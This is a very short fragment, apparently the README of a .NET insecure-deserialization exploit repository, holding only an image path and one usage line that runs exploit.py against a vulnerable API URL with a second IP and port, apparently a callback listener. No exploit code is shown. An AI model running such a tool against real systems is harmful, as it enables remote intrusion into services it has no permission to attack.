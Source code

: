 # dotnet-insecure-desserialization

Usage:
  python3 exploit.py http://127.0.0.1/api/vulnerable 192.168.1.2 80
